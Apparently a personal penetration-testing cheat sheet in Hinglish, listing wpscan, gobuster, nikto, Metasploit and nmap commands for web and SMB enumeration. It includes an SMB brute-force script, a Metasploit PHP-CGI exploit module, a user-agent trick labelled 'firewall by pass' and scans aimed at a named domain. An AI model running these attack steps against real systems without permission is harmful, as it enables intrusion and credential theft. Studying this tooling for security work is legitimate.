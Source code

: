 | .you use serchspoit joomla 3.2.0  to find out  | verlerebility or explitation. |
| wpscan --url orane.com/ | Find out roobot.txt,username identify  only we use word press web site. |
| wpscan --url https://orane.com/ -e --random-user-agent | firewall by pass
    |
| gobuster vhost -u http://orane.com/ -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt --append-domain  | ek ip pe kitne domain run ho rhe hai. |
| gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,bak,conf,log | linux |
| gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt -x asp,aspx,bak,txt,config,log | windows |
| gobuster dir -u http://<target> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,asp,aspx,bak,conf,txt,html -t 50 | both |
| gobuster dir -u http://<target>:8080 -w … | another port run |
| nikto -h http”//target ip |  |
| whois google.com |  |
| subfinder -d  [orane.com](http://orane.com) > subdomain.txt |  |
| msfconsole |  |
| use auxiliary(scanner/http/http_version) | version findout  |
| search php 5.4.2  |  |
| use exploit/multi/http/php_cgi_arg_injection  | set rhost , |
| —————————————————————— | —————————————————————————————————- |


| 6] Smb(139.445) |  |
| `nmap -sn <subnet> -p139,445` |  |
| `nmap -sn <target ip> -p139,445`  |  |
| `nmap -sV -sC  <target ip> -p 139,445` |  |
| `nmap -sV -sC --script vuln <target_ip> -p 139,445` |  |
| cd   /usr/share/nmap/scripts | change dir nmap script |
| ls |grep smb | grep smb |
| nmap 192.168.0.107 --script=smb-enum-shares.nse -p 139 445 | **SMB network par shared folders list karta hai**. |
| nmap  <target> --script=smb-enum-users -p  139,445  | **SMB users ki list retrieve karta hai**. |
| **nmap --script smb-os-discovery.nse [Target IP Address]** | determine the OS, computer name, domain, workgroup, and current time over the SMB protocol  |
| nmap 192.168.0.107 --script=smb-brute.nse -p 139,445 | **SMB user accounts par brute-force attack perform karta hai**. |
| searchsploit samb  | grep 3.0.20 |  |
| enum4linux 192.168.0.107   | put target ip  |
| manual smb exploit  |  |
| smbget -R -U "username%password" smb://10.10.246.144/anonymous | Agar anonymous access allowed na ho aur username/password ki zaroorat ho |
| smbclient -N -L [//192.168.0.107](https://192.168.0.107/) | check Anonymous login  allow hai ya nahi. |
| smbmap -H 192.168.0.107 | check kerta hai read write  |
|  smbclient [//192.168.0.107/tmp](https://192.168.0.107/tmp) | anonymous share pe logi hona rhe taab. |
| smbclient [//192.168.0.106/tmp](https://192.168.0.106/tmp) --option='client min protocol=NT1' | agar NT status connection disconnect dikha to ye command ka use kerke under jayege. |